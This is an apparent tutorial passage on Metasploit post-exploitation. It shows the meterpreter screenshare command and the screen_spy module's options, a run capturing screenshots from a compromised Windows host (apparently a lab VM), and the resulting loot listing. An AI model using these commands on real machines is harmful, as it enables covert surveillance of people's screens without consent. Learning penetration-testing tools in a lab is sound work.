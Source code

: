 ```

OPTIONS:

    -d   The stream duration in seconds (Default: 1800)
    -h   Help Banner.
    -q   The JPEG image quality (Default: '50')
    -s   The stream file path (Default: 'FteINQtk.jpeg')
    -t   The stream player path (Default: tFLOibzd.html)
    -v   Automatically view the stream (Default: 'true')
```

2. **Screenshare**

```
meterpreter > screenshare
[*] Preparing player...
[*] Opening player at: /home/user/CTslvACC.html
[*] Streaming...

msf exploit(multi/handler) > use post/windows/gather/screen_spy

msf post(windows/gather/screen_spy) > options

Module options (post/windows/gather/screen_spy):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   COUNT             6                yes       Number of screenshots to collect
   DELAY             5                yes       Interval between screenshots in seconds
   PID                                no        PID to migrate into before taking the screenshots
   RECORD            true             yes       Record all screenshots to disk by saving them to loot
   SESSION                            yes       The session to run this module on
   VIEW_SCREENSHOTS  false            no        View screenshots automatically
```

3. **`screen_spy` post exploitation module**

```
meterpreter > run post/windows/gather/screen_spy

[*] Capturing 6 screenshots with a delay of 5 seconds
[*] Screen Spying Complete
[*] run loot -t screenspy.screenshot to see file locations of your newly acquired loot

meterpreter > background
[*] Backgrounding session 1...

msf post(windows/gather/screen_spy) > loot -S screenspy.screenshot

Loot
====

host       service  type                  name              content    info        path
----       -------  ----                  ----              -------    ----        ----
10.0.2.15           screenspy.screenshot  screenshot.0.jpg  image/jpg  Screenshot  /root/.msf4/loot/20220515200113_default_10.0.2.15_screenspy.screen_984207.jpg
10.0.2.15           screenspy.screenshot  screenshot.1.jpg  image/jpg  Screenshot  /root/.msf4/loot/20220515200118_default_10.0.2.15_screenspy.screen_091374.jpg
10.0.2.15           screenspy.screenshot  screenshot.2.jpg  image/jpg  Screenshot  /root/.msf4/loot/20220515200123_default_10.0.2.15_screenspy.screen_996060.jpg
10.0.2.15           screenspy.screenshot  screenshot.3.jpg  image/jpg  Screenshot  /root/.msf4/loot/20220515200128_default_10.0.2.15_screenspy.screen_330156.jpg
10.0.2.15           screenspy.screenshot  screenshot.4.jpg  image/jpg  Screenshot  /root/.msf4/loot/20220515200141_default_10.0.2.15_screenspy.screen_723895.jpg
```